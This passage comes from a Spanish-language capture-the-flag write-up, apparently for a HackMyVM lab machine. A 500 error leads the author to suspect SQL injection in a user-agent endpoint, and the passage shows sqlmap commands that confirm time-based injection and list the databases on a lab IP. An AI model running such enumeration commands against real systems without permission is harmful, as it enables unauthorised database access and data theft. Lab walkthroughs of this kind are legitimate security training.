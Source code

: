 Ya que al colocar una utilizar una comilla el servidor mandó un mensaje de error 500 puede ser una injección sql, por ende pruebo manualmente injecciones pero no obtengo ningún resultado. Pero para enumerar mejor esta posible vulnerabilidad prefiero utilizar `sqlmap`, ya que manualmente puedo pasar por alto algo.

1. `sqlmap --url [http://192.168.1.140/save-user-agent.php](http://192.168.1.140/save-user-agent.php) --method post --data '{"user_agent":"param"}' --batch`

    ![Untitled](/images/2023-12-15-HVM-Logan2/Untitled%208.png)

    Como podemos ver es vulnerable una Injección SQL time based, dado esto comienzo dumpear bases de datos, tablas, columnas y datos.

2. `sqlmap --url [http://192.168.1.140/save-user-agent.php](http://192.168.1.140/save-user-agent.php) --method post --data '{"user_agent":"param"}' --batch --dbs`  para ver las bases de datos.

    ![Untitled](/images/2023-12-15-HVM-Logan2/Untitled%209.png)

